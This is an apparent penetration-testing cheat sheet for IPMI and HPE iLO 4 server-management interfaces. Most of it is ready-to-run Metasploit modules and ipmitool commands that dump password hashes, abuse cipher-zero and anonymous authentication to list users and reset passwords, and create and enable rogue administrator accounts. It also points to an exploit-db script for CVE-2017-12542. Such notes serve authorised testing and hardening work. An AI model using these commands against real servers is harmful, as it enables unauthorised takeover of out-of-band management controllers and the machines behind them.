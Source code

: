 # IPMI

* [https://blog.rapid7.com/2013/07/02/a-penetration-testers-guide-to-ipmi/](https://blog.rapid7.com/2013/07/02/a-penetration-testers-guide-to-ipmi/)
* [https://habr.com/ru/company/selectel/blog/439834/](https://habr.com/ru/company/selectel/blog/439834/)




## Discovery

```
msf > use auxiliary/scanner/ipmi/ipmi_version
```




## Dump Hashes

**CVE-2013-4786**

```
msf > use scanner/ipmi/ipmi_dumphashes
```




## Cipher Zero

**CVE-2013-4805**

Discover with MSF:

```
msf > use scanner/ipmi/ipmi/ipmi_cipher_zero
```

Guess existing admin username. If `ADMIN` username is correct, the `list` command will succeed (password doesn't matter):

```
$ sudo apt install ipmitool
$ ipmitool -I lanplus -C 0 -H 127.0.0.1 -U ADMIN -P DummyPassw0rd user list
```

Add new admin user (only existing admin username is needed):

```
$ ipmitool -I lanplus -C 0 -H 127.0.0.1 -U ADMIN -P DummyPassw0rd user set name <ID> snovvcrash
$ ipmitool -I lanplus -C 0 -H 127.0.0.1 -U ADMIN -P DummyPassw0rd user set password <ID> 'Passw0rd!'
$ ipmitool -I lanplus -C 0 -H 127.0.0.1 -U ADMIN -P DummyPassw0rd user priv <ID> 4
$ ipmitool -I lanplus -C 0 -H 127.0.0.1 -U ADMIN -P DummyPassw0rd user enable <ID>
```




## Anonymous Authentication

Can be discovered with MSF `ipmi_dumphashes` but also with ipmitool:

```
$ ipmitool -I lanplus -H 127.0.0.1 -U '' -P '' user list
```

Change password of a named user account:

```
$ ipmitool -I lanplus -H 127.0.0.1 -U '' -P '' user set password <ID> 'Passw0rd!'
```




## HPE iLO 4

* [https://codeby.net/threads/poluchaem-dostup-k-hp-ilo.63224/](https://codeby.net/threads/poluchaem-dostup-k-hp-ilo.63224/)
* [https://github.com/airbus-seclab/ilo4_toolbox](https://github.com/airbus-seclab/ilo4_toolbox)



### Add Admin User

**CVE-2017-12542**

Exploit with Python:

* [https://www.exploit-db.com/exploits/44005](https://www.exploit-db.com/exploits/44005)

```
$ ./44005.py -t -e -u snovvcrash -p 'Passw0rd!' 127.0.0.1
```

Exploit with MSF:

```
msf > use auxiliary/admin/hp/hp_ilo_create_admin_account
```
